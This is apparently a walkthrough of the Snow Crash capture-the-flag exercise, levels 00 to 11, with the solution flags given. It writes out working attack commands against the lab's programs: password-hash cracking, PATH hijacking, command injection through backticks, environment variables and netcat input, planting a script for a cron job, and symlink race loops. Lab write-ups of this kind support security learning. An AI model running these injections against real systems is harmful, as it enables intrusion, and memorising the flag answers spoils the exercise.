 # snow_crash


# Level 00
```sh
level00@SnowCrash:~$ find / -path /proc -prune -o -user flag00 -print 2> /dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```
```sh
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```
[The Cipher Identifier](https://www.dcode.fr/cipher-identifier) => ROT Cipher
Brute Force ROT Cipher => nottoohardhere

<details>
	<summary>Flag:</summary>
	x24ti5gi3x0ol2eh4esiuxias
</details>

# Level 01
```sh
find / -path /dev -prune -o -exec grep -Hn "flag01" {} \; 2>/dev/null
/etc/passwd:41:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
Encoded in SHA512(?)
https://www.openwall.com/john/
```sh
wget https://www.openwall.com/john/k/john-1.9.0-jumbo-1.tar.xz
tar -xJf john-1.9.0-jumbo-1.tar.xz
./configure && make -s clean && make -sj4 
echo 42hDRfypTqqnw > /tmp/pass

./john /tmp/pass
Proceeding with wordlist:./password.lst, rules:Wordlist
abcdefg          (?)

```

<details>
	<summary>Flag:</summary>
	f2av5il02puano7naaf6adaaf
</details>

# Level 02

level02.pcap with Wireshark

Right click => Follow => TCP

Password: ft_wandr...NDRel.L0L   (. = backspace)

Final password: ft_waNDReL0L

<details>
	<summary>Flag:</summary>
	kooda2puivaav1idi4f57q8iq
</details>

# Level 03

exec in https://dogbolt.org

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

/usr/bin/env is absolut

```sh
cp /bin/getflag /tmp/echo
PATH=/tmp ./level03
```

<details>
	<summary>Flag:</summary>
	qi0maab88jeaj46qoumi7maus
</details>

# Level 04

level04.pl as CGI

Connect on appach at localhost:4747

```sh
level04@SnowCrash:/etc/apache2/sites-available$ curl "localhost:4747?x=\`getflag\`"
```

<details>
	<summary>Flag:</summary>
	ne2searoevaevoem4ov4ar8ap
</details>

# Level 05

On connection: You have new mail.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

echo "echo test; exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/test.sh
echo /tmp/soluc
```

<details>
	<summary>Flag:</summary>
	viuaaale9huek52boumoomioc
</details>

# Level 06

```sh
$ ls
level06  level06.php

$ echo '[x {${exec(getflag)}}]' > /tmp/test && ./level06 /tmp/test
```

<details>
	<summary>Flag:</summary>
	wiok45aaoguiboiki2tuin6ub
</details>

# Level 07


```c
    asprintf(&v1, "/bin/echo %s ");
```

```sh
$ LOGNAME="; getflag" ./level07 
```

<details>
	<summary>Flag:</summary>
	fiumuikeil55xe9cu4dood66h
</details>ls

# Level 08

```sh
$ ln -s /home/user/level08/token /tmp/testing
$ ./level08 /tmp/testing
$ su flag08
$	quif5eloekouj29ke0vouxean
```

<details>
	<summary>Flag:</summary>
	25749xKZ8L7DkSCwJkT9dyv6f
</details>

# Level 09

```sh
$ scp -P 4243 level09@localhost:/home/user/level09/token .
# exec script to rotate
$ echo "<res>" > /tmp/res
$ ./level09 /tmp/res
```

<details>
	<summary>Flag:</summary>
	s5cAJpM8ev6XHw998pRWG728z
</details>


# Level 10

```sh
$ while true; do ln -sf /home/user/level10/token /tmp/mykey; ln -sf /tmp/test /tmp/mykey; done &
$ for i in {1..1000}; do /home/user/level10/level10 /tmp/mykey 127.0.0.1; done
```
clef flag10: woupa2yuojeeaaed06riuj63c

<details>
	<summary>Flag:</summary>
	feulo4b72j7edeahuete3no7c
</details>

# Level 11

```sh
$ level11@SnowCrash:~$ netcat 127.0.0.1 5151
Password: `getflag > /tmp/key; echo test`
```

<details>
	<summary>Flag:</summary>
	fa6v5ateaw21peobuub8ipe6s
</details>
